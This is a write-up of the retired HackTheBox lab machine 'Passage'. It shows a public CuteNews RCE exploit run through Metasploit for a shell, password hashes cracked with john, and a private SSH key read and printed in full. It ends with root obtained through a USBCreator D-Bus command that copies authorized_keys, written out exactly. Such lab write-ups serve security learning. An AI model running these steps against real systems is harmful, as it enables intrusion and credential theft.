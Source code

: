 Title:HTB: Passage
Date: 03-09-2021 09:20
category:security
tags:security, boot2root, HTB, linux
meta:security, boot2root, HTB, linux

<img class="align-left" src="/media/2021.03/passage_card.png" alt="Passage Card" width="262">

This is a writeup about a retired HacktheBox machine:
[Passage](https://www.hackthebox.com/home/machines/profile/275) publish on
September 2, 2020 by
[ChefByzen](https://www.hackthebox.com/home/users/profile/140851).
This box is rated as a medium box. It implies two public exploit and a shared SSH
private key.

<!-- PELICAN_END_SUMMARY -->

# Foothold

## Recon

Let us start as always by a `nmap` scan. Only port 80 (HTTP) and 22 (SSH) are
open.

    :::text
    # Nmap 7.80 scan initiated Sun Sep 13 03:46:59 2020 as: nmap -p- -sSV -oN nmap 10.10.10.206
    Nmap scan report for 10.10.10.206
    Host is up (0.086s latency).
    Not shown: 65533 closed ports
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
    80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

## Web

We browse to the website. This is a simple blog with some news. One of them is
about a [fail2ban](https://www.fail2ban.org/wiki/index.php/Main_Page)
implementation. This will dissuade us to brute force login interfaces (which
rarely happen on HTB) and run `dirb` against the site.

![Passage News index](/media/2021.03/passage_01.png)

When looking at the bottom of the page we see that the blog is "Powered by
CuteNews". A few Google search lead us to the admin panel located at `/CuteNews`

![Cute News login page](/media/2021.03/passage_02.png)

We cannot login as we don't have any creds nor create an account.
We also check the available exploit for this CuteNews version (2.1.2).

    :::text
    kali@kali:~$ searchsploit CuteNews 2.1.2
    ----------------------------------------------------------- ---------------------------------
    Exploit Title                                             |  Path
    ----------------------------------------------------------- ---------------------------------
    CuteNews 2.1.2 - 'avatar' Remote Code Execution (Metasploi | php/remote/46698.rb
    CuteNews 2.1.2 - Arbitrary File Deletion                   | php/webapps/48447.txt
    CuteNews 2.1.2 - Authenticated Arbitrary File Upload       | php/webapps/48458.txt
    ----------------------------------------------------------- ---------------------------------
    Shellcodes: No Results

We import the 'Avatar' exploit into metasploit using [rapid7 guide](https://github.com/rapid7/metasploit-framework/wiki/Running-Private-Modules).
We register an account an launch the exploit and got a reverse shell as `www-data`.

We look at the available files. We found the `cdata` folder just a level above
and then the `users` directory. We display some of them. They contain base64
encoded user data. Some of them contain a SHA256 hashed password.

    :::text
    cat b0.php
    <?php die('Direct call - access denied'); ?>
    YToxOntzOjQ6Im5hbWUiO2E6MTp7czoxMDoicGF1bC1jb2xlcyI7YTo5OntzOjI6ImlkIjtzOjEwOiIxNTkyNDgzMjM2IjtzOjQ6Im5hbWUiO3M6MTA6InBhdWwtY29sZXMiO3M6MzoiYWNsIjtzOjE6IjIiO3M6NToiZW1haWwiO3M6MTY6InBhdWxAcGFzc2FnZS5odGIiO3M6NDoibmljayI7czoxMDoiUGF1bCBDb2xlcyI7czo0OiJwYXNzIjtzOjY0OiJlMjZmM2U4NmQxZjgxMDgxMjA3MjNlYmU2OTBlNWQzZDYxNjI4ZjQxMzAwNzZlYzZjYjQzZjE2ZjQ5NzI3M2NkIjtzOjM6Imx0cyI7czoxMDoiMTYwMDA4MDM1OSI7czozOiJiYW4iO3M6MToiMCI7czozOiJjbnQiO3M6MToiMiI7fX19

    a:1:{s:4:"name";a:1:{s:10:"paul-coles";a:9:{s:2:"id";s:10:"1592483236";s:4:"name";s:10:"paul-coles";s:3:"acl";s:1:"2";s:5:"email";s:16:"paul@passage.htb";s:4:"nick";s:10:"Paul Coles";s:4:"pass";s:64:"e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd";s:3:"lts";s:10:"1592485556";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}

We grab all the hashes and crack them using `john` and the rockyou wordlist.
`Paul`'s password is `atlanta1`.

    :::text
    [maggick@fomalhaut ~]$ john hash -w=~/tools/password_lists/rockyou.txt --fork=8 --rules --format=Raw-SHA256
    Using default input encoding: UTF-8
    Loaded 4 password hashes with no different salts (Raw-SHA256 [SHA256 128/128 AVX 4x])
    Warning: OpenMP was disabled due to --fork; a non-OpenMP build may be faster
    Node numbers 1-8 of 8 (fork)
    Each node loaded 1/8 of wordfile to memory (about 16 MB/node)
    atlanta1         (paul)
    Press 'q' or Ctrl-C to abort, almost any other key for status
    atlanta1         (paul)
    atlanta1         (paul)
    atlanta1         (paul)
    Waiting for 7 children to terminate
    Session completed

We open a shell, and try to switch user but we cannot use `su` as we don't have
a proper terminal. Using
[Payload all the things cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#spawn-tty-shell)
we get an interactive shell and get logged in as `paul` and grab the user flag.

    :::text
    meterpreter > shell
    Process 3053 created.
    Channel 14 created.
      su 
    su: must be run from a terminal
    /usr/bin/script -qc /bin/bash /dev/null                  
    www-data@passage:/var/www/html/CuteNews/cdata/users$ su paul
    su paul
    Password: atlanta1

    paul@passage:/var/www/html/CuteNews/cdata/users$ cd
    cd
    paul@passage:~$ cat user.txt
    cat user.txt 
    c9e5ea0c3e42965404e9cf34eaee71bd

# Root

We grab the SSH key in paul's `.ssh` folder. The associated public key show us
that this is `nadav` public (and private) key.

    :::text
    cat .ssh/id_rsa.pub
    ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzXiscFGV3l9T2gvXOkh9w+BpPnhFv5AOPagArgzWDk9uUq7/4v4kuzso/lAvQIg2gYaEHlDdpqd9gCYA7tg76N5RLbroGqA6Po91Q69PQadLsziJnYumbhClgPLGuBj06YKDktI3bo/H3jxYTXY3kfIUKo3WFnoVZiTmvKLDkAlO/+S2tYQa7wMleSR01pP4VExxPW4xDfbLnnp9zOUVBpdCMHl8lRdgogOQuEadRNRwCdIkmMEY5efV3YsYcwBwc6h/ZB4u8xPyH3yFlBNR7JADkn7ZFnrdvTh3OY+kLEr6FuiSyOEWhcPybkM5hxdL9ge9bWreSfNC1122qq49d nadav@passage
    paul@passage:~$ cat .ssh/id_rsa
    cat .ssh/id_rsa
    -----BEGIN RSA PRIVATE KEY-----
    MIIEpAIBAAKCAQEAs14rHBRld5fU9oL1zpIfcPgaT54Rb+QDj2oAK4M1g5PblKu/
    +L+JLs7KP5QL0CINoGGhB5Q3aanfYAmAO7YO+jeUS266BqgOj6PdUOvT0GnS7M4i
    Z2Lpm4QpYDyxrgY9OmCg5LSN26Px948WE12N5HyFCqN1hZ6FWYk5ryiw5AJTv/kt
    rWEGu8DJXkkdNaT+FRMcT1uMQ32y556fczlFQaXQjB5fJUXYKIDkLhGnUTUcAnSJ
    JjBGOXn1d2LGHMAcHOof2QeLvMT8h98hZQTUeyQA5J+2RZ63b04dzmPpCxK+hbok
    sjhFoXD8m5DOYcXS/YHvW1q3knzQtddtqquPXQIDAQABAoIBAGwqMHMJdbrt67YQ
    eWztv1ofs7YpizhfVypH8PxMbpv/MR5xiB3YW0DH4Tz/6TPFJVR/K11nqxbkItlG
    QXdArb2EgMAQcMwM0mManR7sZ9o5xsGY+TRBeMCYrV7kmv1ns8qddMkWfKlkL0lr
    lxNsimGsGYq10ewXETFSSF/xeOK15hp5rzwZwrmI9No4FFrX6P0r7rdOaxswSFAh
    zWd1GhYk+Z3qYUhCE0AxHxpM0DlNVFrIwc0DnM5jogO6JDxHkzXaDUj/A0jnjMMz
    R0AyP/AEw7HmvcrSoFRx6k/NtzaePzIa2CuGDkz/G6OEhNVd2S8/enlxf51MIO/k
    7u1gB70CgYEA1zLGA35J1HW7IcgOK7m2HGMdueM4BX8z8GrPIk6MLZ6w9X6yoBio
    GS3B3ngOKyHVGFeQrpwT1a/cxdEi8yetXj9FJd7yg2kIeuDPp+gmHZhVHGcwE6C4
    IuVrqUgz4FzyH1ZFg37embvutkIBv3FVyF7RRqFX/6y6X1Vbtk7kXsMCgYEA1WBE
    LuhRFMDaEIdfA16CotRuwwpQS/WeZ8Q5loOj9+hm7wYCtGpbdS9urDHaMZUHysSR
    AHRFxITr4Sbi51BHUsnwHzJZ0o6tRFMXacN93g3Y2bT9yZ2zj9kwGM25ySizEWH0
    VvPKeRYMlGnXqBvJoRE43wdQaPGYgW2bj6Ylt18CgYBRzSsYCNlnuZj4rmM0m9Nt
    1v9lucmBzWig6vjxwYnnjXsW1qJv2O+NIqefOWOpYaLvLdoBhbLEd6UkTOtMIrj0
    KnjOfIETEsn2a56D5OsYNN+lfFP6Ig3ctfjG0Htnve0LnG+wHHnhVl7XSSAA9cP1
    9pT2lD4vIil2M6w5EKQeoQKBgQCMMs16GLE1tqVRWPEH8LBbNsN0KbGqxz8GpTrF
    d8dj23LOuJ9MVdmz/K92OudHzsko5ND1gHBa+I9YB8ns/KVwczjv9pBoNdEI5KOs
    nYN1RJnoKfDa6WCTMrxUf9ADqVdHI5p9C4BM4Tzwwz6suV1ZFEzO1ipyWdO/rvoY
    f62mdwKBgQCCvj96lWy41Uofc8y65CJi126M+9OElbhskRiWlB3OIDb51mbSYgyM
    Uxu7T8HY2CcWiKGe+TEX6mw9VFxaOyiBm8ReSC7Sk21GASy8KgqtfZy7pZGvazDs
    OR3ygpKs09yu7svQi8j2qwc7FL6DER74yws+f538hI7SHBv9fYPVyw==
    -----END RSA PRIVATE KEY-----

So we just us the SSH key to connect as `nadav`.

    :::text
    kali@kali:~$ ssh -l nadav 10.10.10.206 -i .ssh/id_rsa-2
    load pubkey ".ssh/id_rsa-2": invalid format
    Last login: Mon Sep 14 04:54:44 2020 from 10.10.14.5
    nadav@passage:~$ id
    uid=1000(nadav) gid=1000(nadav) groups=1000(nadav),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)

We look at the files in the home folder. In .viminfo we found that one of the
latest edited file is about USBCreator.

    :::text
    # Jumplist (newest first):
    -'  12  7  /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf
    -'  2  0  /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf

A quick Google search lead us a [blog post](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/)
with an USBCreator privilege escalation exploit allowing to write a file on the system as
root. We reproduce the steps in order to copy `nadav`'s `authorized_keys` file in
the `root`'s `.ssh` directory. We can then connect as `root` with our SSH key
and get the flag.


    :::text
    nadav@passage:~$ gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /home/nadav/.ssh/authorized_keys /root/.ssh/authorized_keys true
    ()
    nadav@passage:~$ logout
    Connection to 10.10.10.206 closed.
    kali@kali:~$ ssh -l nadav 10.10.10.206 -i .ssh/id_rsa-2
    load pubkey ".ssh/id_rsa-2": invalid format
    Last login: Mon Sep 14 05:13:56 2020 from 127.0.0.1
    nadav@passage:~$ logout
    Connection to 10.10.10.206 closed.
    kali@kali:~$ ssh -l root 10.10.10.206 -i .ssh/id_rsa-2
    load pubkey ".ssh/id_rsa-2": invalid format
    Last login: Mon Aug 31 15:14:22 2020 from 127.0.0.1
    root@passage:~# id
    uid=0(root) gid=0(root) groups=0(root)
    root@passage:~# cat root.txt o
    db9c53fcf5bde2fa5a591bcb948a1d3a

# Wrapping up

This box was quit easy. Not to much rabbit hole. At the end this is just the
chaining of two public exploits. I will recommend it for beginners.

